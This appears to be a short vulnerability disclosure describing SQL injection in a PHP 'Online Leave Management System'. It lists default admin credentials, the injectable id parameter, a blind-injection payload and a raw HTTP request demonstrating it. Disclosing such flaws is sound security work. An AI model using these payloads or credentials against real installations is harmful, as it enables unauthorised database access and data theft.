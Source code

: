 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author:

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /leave_system/admin/maintenance/manage_department.php?id

Vulnerability location: /leave_system/admin/maintenance/manage_department.php?id=,id

dbname=leave_db,length=8

[+] Payload:  /leave_system/admin/maintenance/manage_department.php?id=1%27%20and%20length(database())%20=9--+ // Leak place ---> id

```sql
GET /leave_system/admin/maintenance/manage_department.php?id=1%27%20and%20length(database())%20=9--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

length=8
![image](https://user-images.githubusercontent.com/54017627/183633543-fd62b8fe-47f2-4164-afee-9056a1592977.png)


length=9
![image](https://user-images.githubusercontent.com/54017627/183633371-9723cd4a-8bbd-40f1-835f-fd0b4443e2e5.png)

